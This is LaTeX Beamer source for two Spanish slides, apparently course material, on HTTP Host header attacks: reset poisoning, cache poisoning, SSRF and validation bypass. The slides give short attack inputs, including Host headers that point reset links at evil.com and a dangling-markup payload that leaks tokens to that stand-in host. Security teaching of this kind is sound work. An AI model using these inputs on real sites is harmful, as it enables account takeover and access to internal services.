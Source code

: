 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{Cabecera Host --- reset, autenticación y caché}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Password reset poisoning (básico)
  \item POST /reset Host: evil.com $\rightarrow$ enlace: https://evil.com/reset?token=\dots{}
  \item El email de reset se construye con el Host $\rightarrow$ la víctima manda su token a tu dominio.
  \item Reset poisoning con markup colgante (dangling markup)
  \item Host: evil.com?x=\textless{}a href='//evil.com?leak=
  \item Si el token va en el HTML del email, un markup colgante lo exfiltra sin que la víctima haga clic.
  \item Bypass de autenticación por Host
  \item Endpoints internos (/admin) accesibles solo con cierto Host $\rightarrow$ falsificarlo da acceso.
  \item Web cache poisoning por petición ambigua
  \item Un Host ambiguo/duplicado que front-end y back-end interpretan distinto $\rightarrow$ envenenar la caché.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Cabecera Host --- SSRF y bypass de validación}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item SSRF por fallo en el enrutamiento (routing-based)
  \item Host: 192.168.0.1 $\rightarrow$ el front-end enruta a esa IP interna
  \item Si el Host decide a qué backend enrutar, apuntarlo a una IP interna alcanza servicios no expuestos.
  \item SSRF por parsing incorrecto de la petición
  \item GET https://evil/\dots{} HTTP/1.1 + Host: backend
  \item Discrepancias al parsear la request-line vs el Host permiten redirigir la petición interna.
  \item Bypass de validación por estado de conexión
  \item El front-end valida el Host de la PRIMERA petición de una conexión keep-alive, pero no de las siguientes $\rightarrow$ reutilizar la conexión con un Host malicioso.
  \item Combinar con HTTP Request Smuggler de Burp / enviar por la misma conexión TCP.
  \item Técnicas del curso hack4u.io $\cdot$ cf. PortSwigger HTTP Host header attacks
  \end{itemize}
\end{frame}
\end{document}
